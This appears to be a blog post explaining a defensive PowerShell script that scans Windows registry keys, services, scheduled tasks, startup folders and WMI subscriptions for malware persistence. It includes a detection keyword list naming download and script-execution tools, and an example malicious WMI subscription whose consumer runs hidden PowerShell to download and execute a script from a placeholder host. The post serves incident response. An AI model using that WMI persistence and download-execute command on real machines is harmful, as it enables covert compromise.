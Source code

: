 ```yaml
---
layout: post
title:  "Powershell For Checking Malware Persistence (mega script)"
date:   2025-06-16 21:00:00 +1000
categories: project
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview
[-----Malware Persistence Checker-----](https://github.com/lvl0socanalyst/Scripts/blob/main/malware_persistence_checker.ps1)

Script that checks for common malware persistence vectors.

Useful when performing analysis on a potentially compromised PC that has been disconnected from the internet. 

Rather than post the whole script I'll just run over and explain the functions/how to use it. 

I'll slowly add function by function. But I'll start with reg keys. Couldn't you just use autoruns? YES. But that's no fun.

Potentially suspicious findings will be dumped in CLI. All results will be whacked into a .txt file
- Therefore, if you don't like the regex or what is marked as 'suspicious' you can change it. Or just view the .txt to see the full output

Script gives the following options:
1. Scan Registry Persistence Keys
2. Scan Service Keys
3. Scan Scheduled Tasks
4. Scan Startup Folders
5. Scan WMI Event Subscriptions
6. Scan Everything 
7. Exit

![PowerShell Script Options](/images/script_photo.PNG)

### Potentially suspicious indicators

The script outputs all results to a .txt file. However, entries that seem suspicious are plastered onto the CLI. These are the following indicators I came up with for files/commands/flags that can raise a red flag.

Indicators
- ```"AppData", "Temp", "Roaming", "LocalLow", "Public", "Users\\Public", "\.vbs", "\.js", "\.bat", "\.cmd", "\.ps1", "\.scr", "wscript.exe", "cscript.exe", "powershell.exe", "mshta.exe", "rundll32.exe", "cmd.exe", "System32\\Tasks", "Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved", "curl.exe", "wget.exe", "base64", "Invoke-", "DownloadString", "EncodedCommand" ```


### Registry and Windows Service Keys

Registry keys are fileless. Hence why they a common spot for malware payloads to exist. Payloads stored in reg keys are often called later by scheduled tasks or WMI events. 

A malicious registry payload would typically call powershell to download or invoke a payload.

Checks the following registry keys
- HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
- HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\Software\Microsoft\Windows\CurrentVersion\Run
- HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
- HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

Service keys are also checked for the above indicators. 
- HKLM:\SYSTEM\CurrentControlSet\Services


### Scheduled Tasks
Malware will often create a scheduled task to run at a certain time to give persistence on the host device. This ensures even after a restart or shutdown the beacon can be reinstated.

Scans all scheduled tasks that don't have \Microsoft\ in the path.

Pretty popular persistence vector however is quite well known. One of the first SIEM rules you create should be for alerting on schtasks.exe usage or for tasks here that aren't known.


### Startup Folders
Files that reside here are executed on startup. Much like scheduled tasks a very common area for malware to reside to ensure persistence after a restart/shutdown.

The following startup folders are checked
- AppData\Microsoft\Windows\Start Menu\Programs\Startup
- ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Malicious files that are set to start on boot here are often named as legitimate Microsoft files and LOLBINs to avoid suspicion.


### WMI Event Subscriptions
WMI subscriptions allow for commands to trigger when a system event occurs. Likewise to reg entries this method is fileless and quite a common method for persistence for more advanced malware.

WMI subscriptions use WQL (Windows Management Instrumentation Query Language) to create conditions on which they should trigger and the action that will occur. WQL uses very similar syntax to SQL, and reads almost like pseudocode. 

An example of a malicious WMI subscription that was used by CozyBear (APT 29).

-----Sets the condition for which the action is triggered (creation of a filter)-----
- ```Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name='explorer.exe'"```

-----Sets the action when the filter is triggered (creation of a consumer)-----
- ```CommandLineTemplate = "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http:cozynoobs.com/minecraft.ps1')"```

-----Binds filter to the consumer (creates condition that runs consumer when filter occurs)
- ```Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{ Filter = $filter.__PATH Consumer = $consumer.__PATH }```

That was a very dumbed down version of the actual event subscription used. But you get the idea of how it is structured. A filter is created which in turn when triggered runs the consumer (action) that runs the suspicious commands.

The following subscriptions are checked
- Get-WmiObject -Namespace root\subscription -Class __EventFilter
- Get-WmiObject -Namespace root\subscription -Class __EventConsumer
- Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding